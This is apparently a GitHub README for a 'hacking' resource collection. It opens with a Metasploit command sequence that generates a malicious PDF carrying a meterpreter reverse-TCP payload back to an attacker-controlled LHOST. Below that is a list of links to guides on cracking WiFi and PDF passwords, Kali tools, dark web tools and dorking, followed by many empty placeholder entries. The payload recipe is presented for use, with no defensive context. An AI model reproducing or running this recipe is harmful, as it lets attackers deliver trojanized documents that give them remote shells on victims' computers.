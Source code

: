 ```
msfconsole

# Search for PDF exploits
search pdf

# Use the selected exploit
use exploit/windows/fileformat/adobe_pdf_embedded_exe

# Set the payload
set payload windows/meterpreter/reverse_tcp

# Configure the payload options
set LHOST 192.168.1.100
set LPORT 4444

# Set the output file name
set FILENAME malicious.pdf

# Set the path to the miscellaneous file
set SRC /path/to/your/miscellaneous/file.exe

# Generate the malicious PDF
exploit
```
<!--
<img src="https://github.com/Divyanshu-85/Required-Document/blob/main/Ai-img/1000180561-removebg-preview.png" height="200px">

-->
# All the Pdf are locked 🔐 
<hr>
  Hello 👋 
<hr>
<img src="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/11.-Aircrack-ng.jpg">
<hr>
1:- Device's Requirement for best hacking system <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Doc-pic/IMG_20250131_12212759.jpg" > <B>laptop or PC</B></a>
<hr>
2:- Video to <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Video/crack%20password.mp4">Crack PDF Password</a>
<hr>
3:- PDF to <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Pdf/Enable%20the%20Monitor%20mode%20in%20wifi%20Adopter%20using%20Kali%20Linux..locked.pdf">Enable the monitor mode using Kali Linux</a> step by step 
<hr>
4:- Important <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Doc-pic/132945cd6ad3c674e9694f68929566ce.jpg">CMD </a> of Kali Linux 
<hr>
5:- <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Video/VID-20250131-WA0000.mp4">Video</a> of using the CMD in Kali Linux 
<hr>
6:- what is Rainbow table attack.....
    what is spyware......
    what is bluejacking.....
    <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/kali.locked.pdf"> PDF</a>
<hr>
7:- Hacking <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/c32354c90b866b2c43bea92b1edfd8c0.jpg"> Tool </a> List
<hr>
8:- Tool <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0032.jpg">For</a> Hacker's
<hr>
9:- Type of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0034.jpg">Cyber</a> Attack 
<hr>
10:- Type of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0038.jpg">IP</a> Address 
<hr>
11:- What is the use of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0041.jpg">IP</a> Address while hacking
<hr>
12:- PDF to crack <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/wifi%20crack.locked.pdf ">wifi</a> Password full command 
<hr>
13:- Dark web <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/100%2BDark%20Web%20Tools.pdf ">tools</a> pdf
<hr>
14:- Google <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Google%20Dorking.pdf">Dorking</a> pdf
<hr>
15:- list of linux <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Linux%20Commands%20cheatsheet.pdf ">command</a> Pdf
<hr>
16:- Metasploit <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Metasploit.pdf">code</a> pdf
<hr>
17:- Some tools of Kali Linux <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/TOOLS.pdf">pdf</a> 
<hr>
18:- John the rapper complete <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/John%20the%20Ripper%20A%20Pentester%20Guide.pdf">code</a> and instruction.
<hr>
19:- Wi-Fi hacking instruction <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Complete%20Wifi%20Hacking%20.pdf ">and</a> code.
<hr>
20:- Wi-Fi hacking instruction<a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/A%20Red%20Teamer%E2%80%99s%20Guide%20to%20Wi-Fi%20Exploits.pdf ">and</a> code (type-2).
<hr>
21:- <a href=" "></a> 
<hr>
22:- <a href=" "></a> 
<hr>
23:- <a href=" "></a> 
<hr>
24:- <a href=" "></a> 
<hr>
25:- <a href=" "></a> 
<hr>
26:- <a href=" "></a> 
<hr>
27:- <a href=" "></a> 
<hr>
28:- <a href=" "></a> 
<hr>
29:- <a href=" "></a> 
<hr>
30:- <a href=" "></a> 
<hr>
31:- <a href=" "></a> 
<hr>
32:- <a href=" "></a> 
<hr>
33:- <a href=" "></a> 
<hr>
34:- <a href=" "></a> 
<hr>
35:- <a href=" "></a> 
<hr>
36:- <a href=" "></a> 
<hr>
37:- <a href=" "></a> 
<hr>
38:- <a href=" "></a> 
<hr>
